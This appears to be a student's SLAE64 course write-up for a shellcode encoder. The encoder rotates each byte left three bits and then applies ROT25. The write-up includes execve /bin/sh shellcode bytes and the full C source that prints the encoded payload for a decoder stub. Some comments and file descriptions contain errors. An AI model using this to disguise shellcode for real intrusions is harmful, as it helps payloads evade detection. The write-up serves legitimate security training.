 ## Assignment #4: Create Encoding Scheme
---
---
### Introduction
---
This assignment consist on creating a Custom Encoder like the Insertion Encoder, and create a PoC using the [Execve-Stack](https://github.com/galminyana/SLAE64/blob/main/Assignment04/Execve-Stack.nasm) as the shellcode. 
Once this is done, a decoder stub has to be implemented in ASM to decode our shellcode and run it. The encoder will be done using C language.

### Encoder Schema
---
The Encoder requires a working shellcode as input. This string containing the shellcode, will be encoded with the schema and the results will be printed in hexadecimal. 

The encoder will do the following: 
- Rotate each byte of the shellcode 3 bits to left 
- Do a ROT25 on each byte of the shellcode 

#### Left Shift Byte Bits
First to do in the Encoder is to shift 3 bites to left on each byte of the original shellcode:

- Get a byte from the shellcode string
- Shift the bits three positions to left
- If the most significant bit is "1" it should rotate to the less significant bit

This is implemented in the following way:
```pseudocode
shifted_byte = ( original_byte << SHIFTS ) | ( original_byte >> ( BITS_TO_ROTATE - SHIFTS ))
```
Where:
- SHIFTS is how many shifts to do. It our case, is "3" shifts to left
- BITS_TO_ROTATE indicates how many bits are implied in the rotation. As we are working with bytes, it's value is "8" bits.

#### ROT25
Once the original shellcode has been Left Shifted, it's time to ROT25 it. As we work with bytes it's values can go from 0x00 to 0xFF
- Each byte of the shellcode will get a new value that’s the actual value + 25
- In the case of the last 25 possible values for a byte, we will start from 0x00. 

This table will show the idea:
```markdown
  --------------------------------------------------------------------------------
  |  Original Value    0x00   0x01   ...   0x80   ...   0xe7   0xe8   ...   0xff |
  |  Decimal Value        0      1   ...    128   ...    231    232   ...    255 |
  |  ROT25 Value       0x19   0x1a   ...   0x99   ...   0x00   0x01   ...   0x18 |
  --------------------------------------------------------------------------------
```
This will be implemented for each byte in this way:
```pseudocode
rot_max_value = 256 – 25		                         ; 231 (0xe7) 
if (original_value < rot_max_value) then 
   rot25_value = original_value + 25 
else				                                         ; Here the value will be 231 or greater 
   rot25_value = (original_value + rot) – 256        ; It's rotated from the start
end if 
```
### Encoder Implementation
---
The encode will be implemented in C language. 

- A string is defined to store the original shellcode. This is the string to encode. From the [Execve-Stack](https://github.com/galminyana/SLAE64/blob/main/Assignment04/Execve-Stack.nasm): 
```c
unsigned char code[]= \ 
"\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50
 \x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05"; 
```
- For each byte of the original shellcode, it's bites are shifted "3" positions to left:
  - A bucle iterates each byte of the string, and for each byte
  - Each byte is shifted to right as been explained in the previous sections
  - The shifted byte value is printed on stdout
```c
        // 3 bits left Rotation 
        for (int i = 0; i< strlen(code); i++) { 
            code[i] = (code[i] << SHIFTS) | ( code[i] >> (BITS_TO_ROTATE - SHIFTS)); 
            printf("0x%02x,", code[i]); 
        }	 
```
- Once shellcode been shifted, a ROT25 is applied:
  - If the byte value is lower than "231", simply adds 25 to the byte value
  - If the byte value is greater or equal to "231", adds 25 to it's value for substracting 256 of it
  - Prints each byte one ROT'ed on screen
```c
        // ROTX the ShellCode 
        unsigned char rot = 25; 
        unsigned char max_rot = 256 - rot; 

        for (int i = 0; i < strlen(code); i++) { 
                if (code[i] < max_rot) {                     ; value < "231"
                        code[i] = code[i] + rot;             ; Add 25
                        printf("0x%02x,",code[i]); 
                } else {                                     ; value >= "31"
                        code[i] = (code[i] + rot) - 256;     ; value = original_value + rot - 256
                        printf("0x%02x,",code[i]); 
                } 
        } 
```

After this all, the Encoded shellcode will be printed in screen. This is the shellcode that needs to go into the ASM Decoder Stub to be decoded and executed. The following info for later use is printed on screen:
- Legth of the shellcode
- The original shellcode string in hex 
- The string in hex of the left rotated shellcode 
- The string in hex of ROT25 of the already rotated shellcode 

The Encoder code is on [GitHub Repo](https://github.com/galminyana/SLAE64/blob/main/Assignment04/) in the [Encoder.c](https://github.com/galminyana/SLAE64/blob/main/Assignment04/Encoder.c):

```c
#include <stdio.h>
#include <string.h>

#define BITS_TO_ROTATE	8
#define SHIFTS 		      3

unsigned char code[]= \
"\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";

void main (void)
{
	printf("\nShellCode Length: %d\n", strlen(code)); 
	printf("\nOriginal ShellCode:\n");

	for (int i = 0; i < strlen(code); i++) {
		printf("0x%02x,", code[i]);
	}

	printf("\n\nShifted Left 3 bits ShellCode:\n");

	// 3 bits left Rotation
	for (int i = 0; i< strlen(code); i++) {
		code[i] = (code[i] << SHIFTS) | ( code[i] >> (BITS_TO_ROTATE - SHIFTS));
		printf("0x%02x,", code[i]);
	}

	printf("\n\nROT25 ShellCode:\n");

	// ROTX the ShellCode
	unsigned char rot = 25;
	unsigned char max_rot = 256 - rot;

	for (int i = 0; i < strlen(code); i++) {
		if (code[i] < max_rot) {
			code[i] = code[i] + rot;
			printf("0x%02x,",code[i]);
		} else {
			code[i] = (code[i] + rot) - 256;
			printf("0x%02x,",code[i]);
		}
	}
	printf("\n");
}	
```
### Encoder: Compile and Run
---














### GitHub Repo Files
---
The [GitHub Repo](https://github.com/galminyana/SLAE64/tree/main/Assignment04) for this assignment contains the following files:

- [Encoder.c](https://github.com/galminyana/SLAE64/blob/main/Assignment04/Encoder.c) : This C file is the implementation of the Encoder Scheme. Prints out a encoded shellcode.
- [Decode-Execve-Stack.nasm](https://github.com/galminyana/SLAE64/blob/main/Assignment04/Decode-Execve-Stack.nasm) : This is the NULL free code for the Egg Hunter.
- [Execve-Stack.nasm](https://github.com/galminyana/SLAE64/blob/main/Assignment4/ReverseShell-ExecveStack_V2.nasm) : This is the code for the shellcode to use in the PoC.
- [shellcode.c](https://github.com/galminyana/SLAE64/blob/main/Assignment04/shellcode.c) : The C template Decode-Execve-Stack.nasm Shellcode, ready to compile and execute


### The End
---
This pages have been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html).

Student ID: PA-14628
 
